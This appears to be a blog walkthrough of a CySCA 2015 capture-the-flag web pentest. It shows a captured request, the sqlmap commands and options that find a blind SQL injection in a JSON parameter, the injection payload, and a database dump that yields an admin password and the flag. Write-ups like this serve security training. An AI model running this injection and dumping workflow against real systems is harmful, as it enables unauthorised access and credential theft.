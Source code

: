 ```yaml
---
title: CySCA 2015 - Web Application Pentest 5 - Turn it On & Off Again
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-web-pentest/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *

As an executive, we notice we've got some additional functionality. We notice 
another menu item "IT Support" and the "Executive Board" option on the home
page. 

Since the challenge is called "Turn it on and off", we will have a poke around 
the IT support section.

The IT Section appears to be an area which allows users to submit IT Tickets. We
notice that it makes API requests to another server, namely `support.ecwi.cysca`.

Loading the list of tickets, we notice a POST request to 
`http://support.ecwi.cysca/ticket/get`, with the payload: 
`{uid: "5", secret: "4Da20BBfG19362c1b4ad6dea4A3aE9G3"}`.  The returned 
data is just a JSON list of tickets. 

Since we haven't had an SQL challenge yet, we pull out SQLMap and try to 
see what we can find. 

We copy the request from burp and save it into a file called tickets.txt:

{% highlight text %}
POST /ticket/get HTTP/1.1
Host: support.ecwi.cysca
Proxy-Connection: keep-alive
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://10.0.0.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://10.0.0.2/service/tickets
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8

{"uid":"5","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
{% endhighlight %}


Lets run sqlmap using that request. `sqlmap -r tickets.txt`. When burp asks 
"JSON data found in POST data. Do you want to process it? [Y/n/q]", we answer 
with "y"

{% highlight text %}
[18:12:04] [WARNING] (custom) POST parameter 'JSON uid' does not appear dynamic
[18:12:04] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401)
[18:12:04] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 2 times
{% endhighlight %}


Hmm, 401 errors. That's okay. We do some googling, and find that sqlmap actually
has an option to ignore 401 errors (provided you're running the latest version 
- 1.0-dev-69bc875). We run again, this time using 
`sqlmap -r tickets.txt --ignore-401`

{% highlight text %}
[18:12:39] [WARNING] (custom) POST parameter 'JSON secret' is not injectable
{% endhighlight %}

Still no dice. Let's increase the level: `sqlmap -r tickets.txt  --ignore-401 --level=3`.
That did the job:

{% highlight text %}
sqlmap identified the following injection point(s) with a total of 187 HTTP(s) requests:
---
Parameter: JSON uid ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"uid":"5" AND 6601=6601 AND "rgyW"="rgyW","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
---
{% endhighlight %}

Awesome. Let's get some data out of this database. We use multiple threads to 
speed up the collection, since this is a blind injection. Additionall, it looks 
**totally badass**.
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --tables --threads=10`:

{% highlight text %}
[5 tables]
+----------------+
| ecwidb_replies |
| ecwidb_tickets |
| ecwidb_tokens  |
| ecwidb_users   |
| ticket_replies |
+----------------+
{% endhighlight %}

Users looks like a place we should look. Lets take a look in there: 
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=10`

{% highlight text %}
Table: ecwidb_users
[1 entry]
+---------+-----------+-----------+
| tid     | tusername | tpassword |
+---------+-----------+-----------+
| <blank> | <blank>   | <blank>   |
+---------+-----------+-----------+
{% endhighlight %}

Weird. We google the issue with returning blank results, and find 
[issue 861](https://github.com/sqlmapproject/sqlmap/issues/861). We re-run using
the suggestion of `--time-sec=20`. `sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=2 --time-sec=20`.

{% highlight text %}
Table: ecwidb_users
[1 entry]
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
| 1  | admin    | #d0ntev3nTryn00bz! |
+----+----------+--------------------+
{% endhighlight %}

We've now got the password to the IT support system, however, we don't know 
where to put it. We're going to need to hunt for a login page.

Navigating to `http://support.ecwi.cysca/` gies us a 404 page, so does 
`http://support.ecwi.cysca/login`. Maybe if we try 
`http://support.ecwi.cysca/admin/`. Interesting. We get a Flask/WSGI looking
"Unauthorized" message. Since we know this is some sort of working endpoint, 
we browse to `http://support.ecwi.cysca/admin/login`. Out pops a login page.

We log in, revealing the flag:

> FLAG{4a000000000000000000000000000000}

